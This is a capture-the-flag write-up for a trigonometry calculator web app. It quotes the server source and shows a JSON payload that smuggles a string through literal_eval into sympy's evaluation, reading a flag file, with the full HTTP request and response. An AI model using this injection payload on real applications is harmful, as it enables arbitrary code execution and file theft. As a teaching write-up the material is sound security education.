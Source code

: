 # Terrific Trigonometry Tutor
Task description:
```
Arr, me hearties! Ye be needin' to know how to use them fancy trigonometry functions, don't ye? Well, I be the one to teach ye! I be the best mathemagician in the seven seas, and with yer "generous donation", I've automated me lessons fer ye! Now, let's get started!
```

## Solution
In this challenge we're presented with a simple web application that allows us to calculate trigonometric equations as well as render them in latex.

![](./index.png)

We're also given the source of this application, which aside from serving static files, contains a single API route that returns latex and if possible calculates the equation:
```python
def postfix_calculator(inp):
    stack = []
    for (ty, val) in inp:
        if ty == 'num':
            stack.append(literal_eval(val))
        elif ty == 'var':
            stack.append(sympy.Symbol(val))
        elif ty == 'op':
            if val in regular_operators:
                a = stack.pop()
                b = stack.pop()
                stack.append(regular_operators[val](b, a))
            elif val in trig_operators:
                a = stack.pop()
                stack.append(trig_operators[val](a))
            else:
                raise ValueError("Invalid operator")
    return stack


@app.post("/compute")
def compute():
    try:
        expr = postfix_calculator(request.get_json())
        if len(expr) == 1:
            return sympy.latex(expr[0]) + r'\\=\\' + sympy.latex(sympy.simplify(expr[0]))
        else:
            return r'\quad{}'.join(map(sympy.latex, expr)) + r'\\=\\\cdots'
    except Exception as e:
        return "invalid expression"
```

After some digging into what `sympy.latex` does, it ends up essentially calling `eval` on the given string so if we can provide our own string into `expr[0]` we can run arbitrary python code.

To achieve that, we can use the `num` type of values which calls `literal_eval` on the value which can parse strings.

The request body can look something like this:
```json
[
    [
        "num",
        "\"open('/app/flag','r').read()\""
    ]
]
```
Which will return the contents of the flag file.

Final requests look something like this:
```
POST /compute HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 44
Content-Type: application/json
Connection: close

[["num","\"open('/app/flag','r').read()\""]]


HTTP/1.1 200 OK
Server: gunicorn
Date: Tue, 25 Apr 2023 16:36:56 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 57

\mathtt{\text{open('/app/flag','r').read()}}\\=\\FAKEFLAG
```
